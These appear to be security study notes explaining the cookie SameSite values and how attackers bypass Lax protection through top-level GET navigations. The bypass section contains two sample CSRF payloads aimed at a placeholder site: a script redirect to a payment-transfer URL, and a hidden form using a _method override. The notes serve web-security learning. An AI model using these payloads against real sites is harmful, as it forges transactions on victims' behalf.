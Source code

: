 ```
Set-Cookie: session=abc123; SameSite=Strict
```

Major values: `Strict`, `Lax`, `None`.

**Chrome note:** If no `SameSite` is set, Chrome treats it as `Lax` by default.

---

### SameSite values — simple explanations

**Strict**

* Browser will NOT send the cookie in any cross-site requests.
* Only sent when the site in the address bar matches the cookie’s site.
* Most secure for sensitive cookies (modify data, authenticated pages).
* Might break desired cross-site behaviors (bad UX for some flows).

**Lax**

* Cookie is sent for **top-level navigations** that are **GET** requests (for example, when a user clicks a link).
* Cookie is **not** sent for cross-site POSTs, background requests (iframes, images, XHR/fetch).
* Default in Chrome for cookies without a SameSite.

**None**

* Disables SameSite protections — cookie is sent in **all** requests, including cross-site.
* When using `SameSite=None`, **must** also use `Secure` (cookie only over HTTPS), otherwise browsers reject it.
* Used when third-party contexts legitimately need the cookie (e.g., some cross-site integrations or trackers).

---

### Bypassing Lax using GET requests (how attackers can abuse it)

* Some servers accept state-changing actions via **GET** or aren't strict about methods.
* Because Lax allows cookies on **top-level GET navigations**, an attacker can force a victim to visit a specially-crafted URL which includes action parameters. The browser will include the session cookie.
* Example attack snippet:

```html
<script>
  // top-level navigation to a state-changing GET endpoint
  document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

* Even if the server expects POST, some frameworks let you override method with form parameters (e.g., `_method=GET`) or accept GET-equivalent actions—this can be abused:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
  <input type="hidden" name="_method" value="GET">
  <input type="hidden" name="recipient" value="hacker">
  <input type="hidden" name="amount" value="1000000">
</form>
```
